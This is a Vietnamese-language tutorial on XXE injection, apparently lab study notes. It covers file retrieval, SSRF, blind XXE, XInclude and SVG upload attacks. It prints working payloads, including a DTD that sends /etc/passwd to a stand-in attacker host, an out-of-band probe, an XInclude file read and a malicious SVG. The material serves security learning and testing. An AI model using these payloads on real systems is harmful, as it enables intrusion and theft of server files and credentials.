









# **XML External Entity (XXE) injection**

## **XXE là gì?**

- XML External Entity (XXE) là một lỗ hổng cho phép kẻ tấn công can thiệp vào quá trình xử lý XML của website.

- Nó thường cho phép kẻ tấn công xem các tệp trên hệ thống tệp của server ứng dụng và tương tác với bất kỳ hệ thống back-end hoặc bên ngoài nào mà bản thân ứng dụng có thể truy cập.



## **Lỗ hổng XXE phát sinh như thế nào?**

- Một số ứng dụng sử dụng định dạng XML để truyển dữ liệu giữa trình duyệt và server.
- Các ứng dụng thực hiện điều này hầu như luôn sử dụng API nền tảng hoặc thư viện tiêu chuẩn để xử lý dữ liệu XML trên server.
- XML là một ngôn ngữ được thiết kế để lưu trữ và vận chuyển dữ liệu.
- Giống như HTML, XML sử dụng cấu trúc thẻ và dữ liệu giống dạng cây. Nhưng XML không sử dụng các thẻ được xác định trước mà các thẻ có thể được đặt tên mô tả dữ liệu.


- Document type: DTD được khai báo trong phần tử DOCTYPE tùy chọn ở đầu tài liệu XML. DTD có thể hoàn toàn độc lập trong chính tài liệu ("DTD nội bộ") hoặc có thể được tải từ nơi khác ("DTD bên ngoài") hoặc có thể kết hợp cả hai.


- Đoạn trên có nghĩa tất cả `&myentity;` sẽ được thay thế bằng `"my entity value"`.


## **Types of XXE attacks**

### **Khai thác XXE để truy xuất tệp**

- Tôi có một ứng dụng web check hàng tồn kho có sử dụng XML để lấy dữ liệu.



- Như các bạn đã thấy nó check với productId là 2 và StoreId là 1.
- Việc sử dụng XML để lấy dữ liệu là một lỗ hổng nghiêm trọng mà chúng ta có thể truy xuất file server để đọc.
- Từ đấy tôi đã đọc được file hệ thống bằng cách như sau:



### **Khai thác XXE để thực hiện các cuộc tấn công SSRF**

- Chúng ta có thể vận dụng lỗ hổng XXE để thực hiện lỗ hổng SSRF
- Việc cần làm ở đây là thử URL để xem phía back-end có sự tương tác với bên ngoài hay không.



- Từ điều trên ta có thể lấy được key và token của `Amazon Elastic Compute Cloud (Amazon EC2) instances` và thông tin cloud.

### **Khai thác Blind XXE**

- Blind XXE là lỗ hổng chúng ta có thể injection XXE vào nhưng ứng dụng không trả về bất cứ thông tin nào.
- Từ đó, việc khai thác XXE sẽ khó có thể phát hiện hơn.

- Có 2 hình thức chính có thể khai thác được lỗ hổng Blind XXE:
  - Sử dụng kĩ thuật out-of-band network, đôi khi nó có thể làm lộ dữ liệu nhạy cảm trong khi tương tác.
  - Kích hoạt lỗi phân tích cú pháp XML theo cách sao cho các thông báo lỗi chứa dữ liệu nhạy cảm.

### **Detecting blind XXE using out-of-band (OAST) techniques**

- Bạn có thể phát hiện blind XXE bằng cách sử dụng kỹ thuật tương tự như XXE SSRF nhưng kết hợp với phương pháp out-of-band network.

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

- Dưới đây là một bài lab mô phỏng kỹ thuật này:

> Blind XXE with out-of-band interaction


- Như ta thấy ở trang web này chúng ta có chức năng check stock sử dụng XML để kiểm tra dữ liệu.



- Tôi đã thử một số cách tấn công XXE nhưng dường như nó không hoạt động:



- Tôi đã thử thêm tấn công kèm kỹ thuật SSRF:



- Từ đấy, ta có thể biết ứng dụng có thể giao tiếp ra bên ngoài.

> Blind XXE with out-of-band interaction via XML parameter entities

```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

### **Exploiting blind XXE to exfiltrate data out-of-band**

- Dưới đây là một payload dùng để đọc nội dung `file:///etc/passwd`

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

- DTD này thực hiện các bước sau:

  - Định nghĩa một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp /etc/passwd.
  - Định nghĩa một thực thể tham số XML được gọi là `eval`, chứa một khai báo động của một thực thể tham số XML khác được gọi là `exfiltrate`.
  - Thực thể `exfiltrate` sẽ được đánh giá bằng cách thực hiện một yêu cầu HTTP tới server web của kẻ tấn công có chứa giá trị của thực thể `file` trong chuỗi truy vấn URL.
  - Sử dụng thực thể `eval`, làm cho khai báo động của thực thể `exfiltrate` được thực hiện.
  - Sử dụng thực thể `exfiltrate` để giá trị của nó được đánh giá bằng cách gửi request URL được chỉ định.

### **Exploiting blind XXE to retrieve data via error messages**

- Một cách tiếp cận khác để khai thác Blind XXE là kích hoạt lỗi phân tích cú pháp XML, trong đó thông báo lỗi chứa dữ liệu nhạy cảm mà kẻ tấn công muốn truy xuất.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

- DTD này thực hiện các bước sau:
  - Định nghĩa một thực thể tham số XML được gọi là `file`, chứa nội dung của tệp /etc/passwd.
  - Định nghĩa một thực thể tham số XML được gọi là `eval`, chứa một khai báo động của một thực thể tham số XML khác được gọi là `error`.
  - Thực thể `error` sẽ được đánh giá bằng cách tải một tệp không tồn tại có tên chứa giá trị của thực thể `file`.
  - Sử dụng thực thể `eval`, làm cho khai báo động của thực thể `error` được thực hiện.
  - Sử dụng thực thể `error` để giá trị của nó được đánh giá bằng cách thử tải tệp không tồn tại, dẫn đến thông báo lỗi chứa tên của tệp không tồn tại, là nội dung của tệp /etc/passwd.

### **Tìm bề mặt tấn công XXE**

#### **XInclude attacks**

- Một số ứng dụng nhận dữ liệu do client gửi, nhúng nó ở phía server vào tài liệu XML, sau đó phân tích cú pháp tài liệu.
- Một ví dụ về điều này xảy ra khi dữ liệu do khách hàng gửi được đặt vào một yêu cầu SOAP, sau đó được xử lý bởi dịch vụ SOAP.

- Trong tình huống này, bạn không thể thực hiện một cuộc tấn công XXE cổ điển, bởi vì bạn không kiểm soát toàn bộ tài liệu XML, do đó không thể xác định hoặc sửa đổi phần tử DOCTYPE.
- Tuy nhiên, bạn có thể sử dụng XInclude để thay thế.
  - XInclude là một phần của đặc tả XML cho phép một tài liệu XML được xây dựng từ các tài liệu phụ.
  - Bạn có thể thực hiện một cuộc tấn công XInclude trong bất kỳ giá trị dữ liệu nào trong tài liệu XML.
  - Vì vậy cuộc tấn công có thể được thực hiện trong các tình huống mà bạn chỉ kiểm soát một mục dữ liệu được đặt trong tài liệu XML phía server.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



- Như ta đã thấy, ở phía client gửi đi ở dạng json nhưng bên phía server thực hiện xử lý dữ liệu ở dạng XML.


#### **XXE attacks via file upload**

- Một số ứng dụng muốn nhận định dạng như PNG hoặc JPEG, thư viện xử lý hình ảnh đang được sử dụng có thể hỗ trợ hình ảnh SVG.
- Vì định dạng SVG sử dụng XML nên kẻ tấn công có thể gửi hình ảnh SVG độc hại và do đó tiếp cận bề mặt tấn công ẩn cho các lỗ hổng XXE.



```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
